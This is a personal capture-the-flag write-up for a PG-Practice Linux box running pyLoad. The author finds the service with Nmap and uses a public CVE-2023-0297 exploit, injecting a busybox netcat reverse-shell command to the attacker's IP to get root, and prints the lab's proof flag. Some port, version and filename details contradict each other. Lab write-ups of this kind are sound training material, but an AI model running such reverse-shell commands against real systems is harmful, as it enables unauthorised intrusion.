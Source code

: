 ```yaml
---
Date: 2024-10-14
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.165.26
Writeup: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
---
```

# PyLoader
I'm still shocked at how quick and incredibly easy this was - I went from boot to root in <15mins! 

After Nmap showed responses to `22` and `9666` I checked `9666` in Firefox immediately (while the Nmap scan is still running) as I'm prone to doing for anything I don't immediately recognise. As soon as I saw a page with `pyLoad` I just threw "pyload exploit" into Google, found a bunch of RCE exploits for CVE-2023-0297, and pulled up the entry on Exploit-DB. 

I figured I'd go straight for a reverse shell in the command parameter, and after getting a mistaken connection from a poorly formatted python shell, I ran a busybox reverse shell and immediately got root access!

I'm still a little confused why this box is marked "Intermediate" but I've been pretty sick all day so I'll absolutely take the easy win. I didn't bother looking up a walkthrough for this, so the "Writeup" link above is a GitHub entry on how CVE-2023-0297 was found as background instead.
# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited html (`9666`) & identified `pyLoad`
- Identified exploit for CVE-2023-0297 and ran against target for reverse shell
- Received reverse shell as `root` so upgraded shell and printed `proof.txt`
## Improved skills
- Exploit identification
## Used tools
- Nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Pyloader.nmap 192.168.165.26 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
9666/tcp open  http    CherryPy wsgiserver
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http://192.168.165.26:9666/
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 9888 -  (Apache)
- Navigated to `http://192.168.165.26:9666` and identified `pyLoad`
![[Pasted image 20241014202443.png]]
	- Potentially vulnerable to CVE-2023-0297
- Navigated to `http://http://192.168.165.26:9666/robots.txt`
![[Pasted image 20241014202759.png]]
---
# Exploitation
- Identified potential exploit `51532.py` from [Exploit Database](https://www.exploit-db.com/exploits/51532) - copied exploit to local host, started netcat listener on port `4444` and ran exploit with python reverse shell
```
python3 51532.py -u http://192.168.165.26:9666 -c 'busybox nc 192.168.45.200 4444 -e /bin/sh'
```
- Caught reverse shell as `root`
![[Pasted image 20241014203650.png]]
- Ran `/usr/bin/script -qc /bin/bash /dev/null` to get full shell, then ran `cat /root/proof.txt` to print `b9c8fbfddbc8b37c93422b4d8e14d88e`
---
# Trophy & Loot
`root.txt` = `b9c8fbfddbc8b37c93422b4d8e14d88e`